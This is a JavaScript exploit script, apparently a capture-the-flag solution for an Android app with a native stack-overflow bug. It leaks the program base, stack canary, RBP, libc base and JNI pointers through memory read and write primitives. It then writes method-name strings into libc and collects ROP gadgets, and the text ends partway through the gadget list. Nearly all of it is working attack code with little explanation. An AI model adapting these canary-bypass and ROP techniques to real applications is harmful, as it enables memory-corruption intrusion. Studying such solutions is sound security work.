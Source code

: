 ```javascript

    // leak base address
    // base address is located in the stack at offset 8 but is itself offseted by 0x16FF
    modify("4141414141414141");
    // skip 16 first bytes (4141...)
    leak = top().substring(16);
    base_addr = unpack64(leak) - 0x16FF;
    console.log("Base address : "+base_addr.toString(16));

    // leak canary
    // canary is at the end of the 40 bytes buffer
    modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242");
    // skip 40 first bytes (4141...)
    leak = top().substring(80);
    // javascript gives incorrect results if we parse the canary as an Int
    canary = leak.substring(0, 16);
    console.log("Canary : "+canary);

    // compute invokeJavaMethod address
    invoke_addr = base_addr + 0xFA0;
    console.log("invokeJavaMethod address : "+invoke_addr.toString(16));

    // leak malloc address
    malloc = unpack64(read(base_addr + 0x2F70))
    // compute libc base
    libc_base = malloc - 0x43410
    console.log("Libc base address : "+libc_base.toString(16));

    // add stuff on the stack otherwise things randomly break afterwards
    push("41414141")
    push("41414141")
    push("41414142")


    // leak RBP
    // RBP is at the end of the 40 bytes buffer, after the canary
    modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242"+canary);
    // skip 48 first bytes (4141...)
    leak = top().substring(96);
    RBP = unpack64(leak);
    console.log("RBP : "+RBP.toString(16));

    // write "showFlag" in libc
    write(libc_base + 0xD9530, '73686F77466C616700');
    // write "()V" in libc
    write(libc_base + 0xD9510, '28295600');

    // get jniEnv and this
    JNI_env = unpack64(read(RBP-0x60)); // vu dans IDA
    this_ptr = unpack64(read(RBP-0x68)); // vu dans IDA
    console.log("JNI_env : "+JNI_env.toString(16));
    console.log("this_ptr : "+this_ptr.toString(16));


    // gadgets found using ROPGadget
    // 0x0000000000042e58 : pop rcx ; ret
    pop_rcx = libc_base + 0x42e58
    // 0x0000000000046175 : pop rdx ; ret
    pop_rdx = libc_base + 0x46175
    // 0x0000000000042c92 : pop rdi ; ret
    pop_rdi = libc_base + 0x42c92
    // 0x0000000000042d38 : pop rsi ; ret
```